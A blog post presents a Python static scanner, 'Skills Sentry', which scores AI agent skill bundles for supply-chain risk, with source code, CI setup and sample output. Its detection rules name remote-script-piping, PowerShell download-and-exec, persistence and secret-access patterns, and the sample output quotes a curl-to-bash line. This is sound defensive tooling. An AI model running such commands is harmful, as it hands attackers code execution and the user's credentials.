

import Tabs from '@theme/Tabs';
import TabItem from '@theme/TabItem';

## The Hook

If you install "skills" from a public marketplace, you are installing trust, so I built a static scanner that scores a skill bundle before it touches my machine.

## Why I Built It

Two quotes were enough to justify a guardrail.

Daniel Lockyer: "malware found in the top downloaded skill on clawhub and so it begins."  
Elon Musk: "Here we go."

That is the whole pattern: popularity becomes distribution, and distribution becomes the exploit.

The scary part is not a single bad skill. It is the workflow. Skills often ship as a mix of code plus setup instructions. If that skill can convince you to run one command, it can bootstrap anything after that.

So I wanted a quick, local, boring gate: point it at a skill bundle and get a risk report.

## The Solution

Skills Sentry is a static scanner. It does not "detect malware." It detects risky behavior and risky intent.

It looks for:

- Remote script execution patterns (curl or wget to sh, powershell iwr, etc)
- Obfuscation patterns (base64 decode, eval, long encoded blobs)
- Sensitive file targeting (.ssh, env files, wallet keywords, tokens)
- Suspicious install steps (chmod +x, hidden paths, cron, launch agents)
- Network endpoints declared in configs and code

Then it outputs:

- A risk score (0 to 100)
- Findings grouped by severity
- A JSON report you can stash in CI



:::warning
This is a heuristic scanner. It will miss novel obfuscation and it will generate false positives.
Use it to block obvious footguns, not to declare something safe.
:::

## The Code

[View Code](https://github.com/victorstack-ai/skills-sentry)

*(Repo: skills-sentry — CLI, sample fixtures, and optional GitHub Action for PR scanning.)*

### CLI usage

<Tabs>
  <TabItem value="quick" label="Quick">
```bash
python skills_sentry.py scan ./some-skill-bundle --json out/report.json
```
  </TabItem>
  <TabItem value="zip" label="Zip bundle">
```bash
python skills_sentry.py scan ./skill.zip --json out/report.json
```
  </TabItem>
  <TabItem value="ci" label="CI gate">
```bash
python skills_sentry.py scan ./bundle --fail-on high --max-score 60
```
  </TabItem>
</Tabs>

### skills_sentry.py

```python
#!/usr/bin/env python3
from __future__ import annotations

import argparse
import json
import os
import re
import sys
import tempfile
import zipfile
from dataclasses import dataclass
from pathlib import Path
from typing import Iterable, List, Optional, Tuple


@dataclass
class Finding:
    severity: str  # low, medium, high
    rule_id: str
    message: str
    file: str
    line: Optional[int] = None
    excerpt: Optional[str] = None


RULES: List[Tuple[str, str, str, re.Pattern]] = [
    # rule_id, severity, message, regex
    (
        "REMOTE_SHELL_PIPE",
        "high",
        "Remote script piped to a shell is a classic supply-chain footgun.",
        re.compile(r"\b(curl|wget)\b.*\|\s*(sh|bash|zsh)\b", re.IGNORECASE),
    ),
    (
        "POWERSHELL_IWR_EXEC",
        "high",
        "PowerShell download-and-exec pattern detected.",
        re.compile(r"\b(iwr|Invoke-WebRequest)\b.*\|\s*(iex|Invoke-Expression)\b", re.IGNORECASE),
    ),
    (
        "BASE64_DECODE_EXEC",
        "high",
        "Base64 decode combined with execution often indicates obfuscation.",
        re.compile(r"(base64\s+-d|frombase64|atob)\b.*(sh|bash|powershell|python|node|eval)", re.IGNORECASE),
    ),
    (
        "EVAL_USAGE",
        "medium",
        "Eval usage is risky and commonly abused.",
        re.compile(r"\b(eval|Function)\s*\(", re.IGNORECASE),
    ),
    (
        "CHMOD_EXEC",
        "medium",
        "chmod +x during install is not always bad, but it increases risk.",
        re.compile(r"\bchmod\s+\+x\b", re.IGNORECASE),
    ),
    (
        "CRON_PERSISTENCE",
        "high",
        "Cron or scheduled task persistence hints at unwanted background behavior.",
        re.compile(r"\b(crontab|cron\.d|launchctl|LaunchAgents|schtasks)\b", re.IGNORECASE),
    ),
    (
        "SSH_KEY_TOUCH",
        "high",
        "Touching SSH keys or config is a red flag in a skill bundle.",
        re.compile(r"(\.ssh/|id_rsa|known_hosts|ssh_config)", re.IGNORECASE),
    ),
    (
        "ENV_SECRETS",
        "high",
        "Accessing env files or secrets is high risk in marketplace code.",
        re.compile(r"(\.env\b|dotenv|process\.env|os\.environ)", re.IGNORECASE),
    ),
    (
        "WALLET_KEYWORDS",
        "high",
        "Crypto wallet keywords detected. Treat as sensitive.",
        re.compile(r"\b(seed phrase|mnemonic|private key|wallet|metamask)\b", re.IGNORECASE),
    ),
    (
        "OBFUSCATED_BLOB",
        "medium",
        "Large encoded blobs often hide payloads.",
        re.compile(r"[A-Za-z0-9+/]{400,}={0,2}"),
    ),
]

TEXT_EXTS = {
    ".md", ".txt", ".json", ".yaml", ".yml", ".toml", ".ini",
    ".py", ".js", ".ts", ".tsx", ".sh", ".bash", ".zsh",
    ".ps1", ".bat", ".cmd", ".rb", ".go", ".java", ".php",
}

SKIP_DIRS = {".git", "node_modules", ".venv", "venv", "dist", "build", "__pycache__"}


def iter_files(root: Path) -> Iterable[Path]:
    for p in root.rglob("*"):
        if p.is_dir():
            continue
        if any(part in SKIP_DIRS for part in p.parts):
            continue
        yield p


def is_text_candidate(p: Path) -> bool:
    if p.suffix.lower() in TEXT_EXTS:
        return True
    try:
        return p.stat().st_size <= 512_000
    except OSError:
        return False


def read_lines(p: Path) -> List[str]:
    try:
        data = p.read_bytes()
    except OSError:
        return []
    if b"\x00" in data[:4096]:
        return []
    try:
        return data.decode("utf-8", errors="replace").splitlines()
    except Exception:
        return []


def scan_text_file(p: Path, root: Path) -> List[Finding]:
    rel = str(p.relative_to(root))
    lines = read_lines(p)
    findings: List[Finding] = []
    for idx, line in enumerate(lines, start=1):
        for rule_id, severity, message, pattern in RULES:
            if pattern.search(line):
                findings.append(
                    Finding(
                        severity=severity,
                        rule_id=rule_id,
                        message=message,
                        file=rel,
                        line=idx,
                        excerpt=line.strip()[:240],
                    )
                )
    return findings


def score(findings: List[Finding]) -> int:
    weights = {"low": 5, "medium": 15, "high": 30}
    raw = sum(weights.get(f.severity, 0) for f in findings)
    return min(100, raw)


def summarize(findings: List[Finding]) -> dict:
    by_sev = {"high": [], "medium": [], "low": []}
    for f in findings:
        by_sev.setdefault(f.severity, []).append(f)
    return {
        "counts": {k: len(v) for k, v in by_sev.items()},
        "findings": {
            k: [
                {"rule_id": x.rule_id, "message": x.message, "file": x.file, "line": x.line, "excerpt": x.excerpt}
                for x in v
            ]
            for k, v in by_sev.items()
        },
    }


def unpack_if_zip(path: Path) -> Path:
    if path.is_dir():
        return path
    if path.suffix.lower() != ".zip":
        raise ValueError("Input must be a folder or a .zip file.")
    tmp = Path(tempfile.mkdtemp(prefix="skills_sentry_"))
    with zipfile.ZipFile(path, "r") as z:
        z.extractall(tmp)
    return tmp


def scan_bundle(input_path: Path) -> Tuple[int, List[Finding], Path]:
    root = unpack_if_zip(input_path)
    findings: List[Finding] = []
    for f in iter_files(root):
        if not is_text_candidate(f):
            continue
        findings.extend(scan_text_file(f, root))
    return score(findings), findings, root


def fail_decision(findings: List[Finding], risk: int, fail_on: Optional[str], max_score: Optional[int]) -> bool:
    if max_score is not None and risk > max_score:
        return True
    if not fail_on:
        return False
    sev_rank = {"low": 1, "medium": 2, "high": 3}
    min_rank = sev_rank.get(fail_on.lower(), 3)
    for f in findings:
        if sev_rank.get(f.severity, 0) >= min_rank:
            return True
    return False


def main() -> int:
    ap = argparse.ArgumentParser(prog="skills_sentry", description="Static scanner for agent skill bundles.")
    sub = ap.add_subparsers(dest="cmd", required=True)
    scan = sub.add_parser("scan", help="Scan a folder or zip bundle and print a report.")
    scan.add_argument("path", help="Path to a skill folder or .zip bundle.")
    scan.add_argument("--json", dest="json_path", help="Write JSON report to this path.")
    scan.add_argument("--fail-on", choices=["low", "medium", "high"], help="Exit non-zero if findings at or above this severity exist.")
    scan.add_argument("--max-score", type=int, help="Exit non-zero if risk score exceeds this value (0-100).")
    args = ap.parse_args()
    input_path = Path(args.path).expanduser().resolve()
    try:
        risk, findings, root = scan_bundle(input_path)
    except Exception as e:
        print(f"ERROR: {e}", file=sys.stderr)
        return 2
    report = {"risk_score": risk, "root": str(root), **summarize(findings)}
    print(f"Risk score: {risk}/100")
    print(f"High: {report['counts']['high']}  Medium: {report['counts']['medium']}  Low: {report['counts']['low']}")
    if report["counts"]["high"] or report["counts"]["medium"]:
        print("\nTop findings:")
        shown = 0
        for sev in ["high", "medium", "low"]:
            for f in report["findings"][sev]:
                print(f"- [{sev.upper()}] {f['rule_id']} in {f['file']}:{f['line']}  {f['excerpt']}")
                shown += 1
                if shown >= 12:
                    break
            if shown >= 12:
                break
    if args.json_path:
        out = Path(args.json_path).expanduser().resolve()
        out.parent.mkdir(parents=True, exist_ok=True)
        out.write_text(json.dumps(report, indent=2), encoding="utf-8")
        print(f"\nWrote JSON report: {out}")
    should_fail = fail_decision(findings, risk, args.fail_on, args.max_score)
    return 1 if should_fail else 0


if __name__ == "__main__":
    raise SystemExit(main())
```

### Example output

<details>
<summary>Sample console report</summary>

```
Risk score: 75/100
High: 2  Medium: 1  Low: 0

Top findings:
- [HIGH] REMOTE_SHELL_PIPE in install.md:12  curl https://example.com/bootstrap.sh | bash
- [HIGH] ENV_SECRETS in src/agent.js:44  process.env.OPENAI_API_KEY
- [MEDIUM] CHMOD_EXEC in setup.sh:7  chmod +x ./bin/run
```
</details>

### CI example

<Tabs>
  <TabItem value="gha" label="GitHub Actions">
```yaml
name: Skill bundle scan
on:
  pull_request:
  push:
    branches: [main]
jobs:
  scan:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - name: Run Skills Sentry
        run: |
          python skills_sentry.py scan . --fail-on high --max-score 60 --json out/report.json
```
  </TabItem>
  <TabItem value="local" label="Pre-commit">
```bash
# Run before you install or publish a skill bundle
python skills_sentry.py scan ./bundle --fail-on medium --max-score 40
```
  </TabItem>
</Tabs>

:::tip
If you run agents locally, the best "security feature" is still isolation. Use a separate OS user, a container, or a VM for anything that can execute tools.
:::

## What I Learned

- "Top downloaded" is a threat signal, not a trust signal.
- Static scanning is worth it when the install path includes copy-paste commands.
- You need two gates: before install (static) and at runtime (permissioned, sandboxed).
- Heuristics work best as a policy tool: block the obvious, review the rest.
- If a skill needs secrets, it should declare them and fail closed without them. Silent fallbacks are where bad behavior hides.

## References

- [malware found in the top downloaded skill on clawhub and so it begins](https://x.com/daniellockyer/status/placeholder) (Daniel Lockyer)
- [Here we go](https://x.com/elonmusk/status/2019823468968370633) (Elon Musk)
